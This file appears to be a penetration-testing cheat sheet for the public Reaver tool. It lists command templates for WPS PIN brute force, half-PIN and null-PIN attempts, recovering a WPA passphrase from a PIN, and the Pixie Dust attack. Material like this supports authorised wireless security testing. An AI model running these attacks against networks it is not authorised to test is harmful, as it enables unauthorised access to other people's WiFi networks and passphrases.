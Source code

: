 # reaver
% wifi, reaver, wps
#plateform/linux #target/remote #cat/RECON #cat/ATTACK

## _desc
```
```

## _repo
```
https://github.com/t6x/reaver-wps-fork-t6x
```

## _doc
```
Reaver implements a brute force attack against Wifi Protected Setup (WPS) registrar PINs in order to recover WPA/WPA2 passphrases
```

## _install
```
```

## PIN brute force
```bash
sudo reaver -v -b <bssid> -c <wlan_channel> -i <wlan_interface|wmon>
```


## PIN brute force (half PIN)
```bash
sudo reaver -v -b <bssid> -c <wlan_channel> -i <wlan_interface|wmon> -p <half_pin>
```

## Null PIN
```bash
sudo reaver -v -b <bssid> -c <wlan_channel> -i <wlan_interface|wmon> -p " "
```

## retrive PSK from PIN
```bash
sudo reaver -v -i <wlan_interface|wmon> -b <bssid> -p <pin>
```

## Pixie Dust attack
```bash
reaver -K 1 -vvv -b <bssid> -c <wlan_channel> -i <wlan_interface|wmon>
```
